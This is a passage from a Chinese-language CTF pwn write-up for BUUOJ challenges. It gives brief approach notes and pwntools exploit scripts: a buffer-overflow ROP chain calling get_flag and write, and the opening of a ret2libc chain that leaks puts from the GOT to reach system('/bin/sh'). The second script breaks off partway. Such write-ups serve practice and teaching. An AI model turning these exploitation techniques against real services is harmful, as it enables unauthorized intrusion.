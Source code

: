 ```python

p.interactive()
```

## not_the_same_3dsctf_2016
### 思路
利用write输出flag就好了

### exp
```python
from pwn import *

context.log_level = "debug"
p = remote("node5.buuoj.cn",27490)
#p = process("./not_the_same_3dsctf_2016")
#elf = ELF("./not_the_same_3dsctf_2016")

#write_plt = elf.plt["write"]
write_plt =0x0806E270
get_flag = 0x080489A0
flag = 0x080ECA2D
exit_addr = 0x0804E660 
main = 0x080489E0

payload = b'A'*45 + p32(get_flag) + p32(write_plt) + p32(exit_addr) + p32(1) + p32(flag) + p32(100)
p.sendline(payload)

p.interactive()
```

## ciscn_2019_en_2
### 思路
和之前第11题相同

### exp
```python
from pwn import *

# same as 11

#context.log_level = "debug"

p = remote('node5.buuoj.cn',28455)
#p = process('./ciscn_2019_en_2')
elf = ELF('./ciscn_2019_en_2')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
gets_got = elf.got['gets']

pop_rdi = 0x400c83
ret = 0x4006b9
encrypt = 0x4009a0

puts_offset = 0x0809c0
system_offset = 0x04f440
binsh_offset = 0x1b3e9a

p.recvuntil(b'Input your choice!')
p.sendline(b'1')
```
